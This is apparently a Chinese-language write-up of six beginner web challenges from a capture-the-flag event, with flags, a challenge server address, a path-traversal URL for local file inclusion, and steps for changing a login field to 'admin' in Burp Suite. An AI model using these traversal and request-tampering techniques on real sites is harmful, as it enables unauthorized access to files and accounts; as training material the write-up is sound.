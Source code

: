 <br />

# CTF:Web101

<br /><br />


============================================

Web-1:source code<br /><br />
--------------------------------------------

右鍵>檢查原始碼或者F12
```

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <meta name="description" content="">
    <meta name="author" content="">
    <link rel="icon" href="images/favicon.ico">

    <title>BreakALL CTF</title>

    <link href="css/bootstrap.min.css" rel="stylesheet">

    <link href="css/signin.css" rel="stylesheet">
  </head>

  <body>

    <div class="container">

      <form class="form-signin"  method="post" action="index.html">
        <h3 class="form-signin-heading">BreakALL CTF</h3>
        <input type="text" id="inputUsername" class="form-control" name="name" placeholder="Username" >

        <input type="password" id="inputPassword" class="form-control" name="pw" placeholder="Password">
		
        <button class="btn btn-lg btn-primary btn-block" type="submit">登入</button>
	
      </form>

    </div> 

	<!-- BreakALLCTF{3xjVYR8dMetWQbwzYsLJ} -->

    <script src="js/ie10-viewport-bug-workaround.js"></script>
  </body>
</html>
```

<br />

============================================

web-2:Robots.txt<br /><br />
--------------------------------------------
網址後面加/robots.txt
```
120.114.62.89:2001/robots.txt
```

<br />
result:

```
User-agent: *
Disallow: /images
Disallow: /secret
```

所以就是120.114.62.89:2001/secret啦!<br />
找到flag.txt!<br />

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2021-16-17%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

<br />





是一串16進位<br />

```
516e4a6c595774425445784456455a374e31463053304979546a5655624846425155563651334a36546b3939
```

轉成字串後是一串base64<br />

```
QnJlYWtBTExDVEZ7N1F0S0IyTjVUbHFBQUV6Q3J6Tk99
```

base64解碼<br />
BreakALLCTF{7QtKB2N5TlqAAEzCrzNO}<br />
答案出來了!<br />



============================================

web-3:Curl-1<br /><br />
--------------------------------------------

在GO按鈕的地方按右鍵>Copy Link Location

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/%E8%9E%A2%E5%B9%95%E6%93%B7%E5%8F%96%E7%95%AB%E9%9D%A2%20(188).png)

<br />

使用curl

```
curl http://120.114.62.89:2014/index.php
```





<br />



============================================

web-4:HTTP method<br /><br />
--------------------------------------------


```
curl -X GETFLAG -v http://120.114.62.89:3001/index.php
```

```
*   Trying 120.114.62.89...
* Connected to 120.114.62.89 (120.114.62.89) port 3001 (#0)
> GETFLAG /index.php HTTP/1.1
> Host: 120.114.62.89:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Fri, 25 May 2018 01:29:23 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Content-Length: 33
< Content-Type: text/html
< 
* Connection #0 to host 120.114.62.89 left intact
BreakALLCTF{fzfaD1jdXyQAMWvRShGC}
```






============================================

web-5:Local File Inclusion<br /><br />
--------------------------------------------

LFI(Local File Inclusion):
[https://en.wikipedia.org/wiki/File_inclusion_vulnerability](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)

```
http://120.114.62.89:2003/index.php?page=../../../../flag
```




<BR />


============================================

Web-6:Burp Suite<br /><br />
--------------------------------------------

1.首先設定瀏覽器proxy<br />
Preferences>Advanced>Network>Settings

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2020-56-14%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2020-56-28%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

<br />
2.確認Intercept is off
<br />
3.隨意輸入帳號密碼

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2020-58-48%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2020-58-57%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

<br />

4.開啟Intercept

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/%E8%9E%A2%E5%B9%95%E6%93%B7%E5%8F%96%E7%95%AB%E9%9D%A2%20(189).png)


<br />



5.Burp Suite
<br />
在POST發現東西了!
<br />
右鍵>Sent to Repeater

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/%E8%9E%A2%E5%B9%95%E6%93%B7%E5%8F%96%E7%95%AB%E9%9D%A2%20(186).png)

<br />
6.修改user變成admin
<br />

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2021-00-59%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2021-01-17%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

<br />
7.flag!

![](https://github.com/zinwang/CTF_write_ups/blob/master/writes_up/Web/pics/2018-05-21%2021-01-28%20%E7%9A%84%E8%9E%A2%E5%B9%95%E6%93%B7%E5%9C%96.png)

<br /><br />




